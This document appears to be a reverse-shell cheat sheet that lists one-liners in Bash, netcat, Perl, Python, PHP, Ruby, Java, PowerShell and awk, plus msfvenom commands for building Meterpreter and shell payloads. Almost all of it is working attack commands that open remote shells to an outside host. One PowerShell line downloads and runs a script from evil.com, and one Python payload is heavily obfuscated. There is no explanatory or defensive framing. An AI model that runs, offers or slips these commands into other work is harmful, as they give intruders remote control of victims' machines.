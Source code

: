 * Bash

  ```bash -i >& /dev/tcp/192.168.1.2/443 0>&1```

* Netcat

  ```nc -e /bin/sh 192.168.1.2 443```

  ```nc -e /bin/bash 192.168.1.2 443```

  ```nc -c bash 192.168.1.2 443```

  ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 443 >/tmp/f```

  ```nc.exe -e cmd 192.168.1.26 443```

* Perl

  ```perl -e 'use Socket;$i="192.168.1.2";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

* Python

  ```export RHOST="192.168.1.2";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'```

  ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```

  ```C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('192.168.1.2', 443)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"```

* PHP

  ```php -r '$sock=fsockopen("192.168.1.2",443);exec("/bin/sh -i <&3 >&3 2>&3");'```

  ```php -r '$sock=fsockopen("192.168.1.2",443);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'```

* Ruby

  ```ruby -rsocket -e'f=TCPSocket.open("192.168.1.2",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

  ```ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'```


### or
```
ruby -rsocket -e 'c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### Java :
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.1.2/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### or
```
String host="192.168.1.2";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

### Xterm :
```
xterm -display 192.168.1.2:443
```

### Ncat :
```
ncat 192.168.1.2 443 -e /bin/bash
```

### Powershell :
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### or
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.2',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### or
```
powershell IEX (New-Object Net.WebClient).DownloadString('https://www.evil.com/reverse.ps1')
```

### Awk :
```
awk 'BEGIN {s = "/inet/tcp/0/192.168.1.2/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### War :
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f war > reverse.war
strings reverse.war | grep jsp # in order to get the name of the file
```

# Msfvenom

### Windows :

### Meterpreter (Metasploit Listener multi/handler) [Staged]

x86 > ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

x64 > ```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

### Shell (Metasploit Listener multi/handler) [Staged]

x86 > ```msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

x64 > ```msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

### Shell (Netcat Listener) [Stageless]

x86 > ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

x64 > ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

### Linux :

### Meterpreter (Metasploit Listener multi/handler) [Staged]

x86 > ```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

x64 > ```msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

### Shell (Metasploit Listener multi/handler) [Staged]

x86 > ```msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

x64 > ```msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

### Shell (Netcat Listener) [Stageless]

x86 > ```msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

x64 > ```msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```
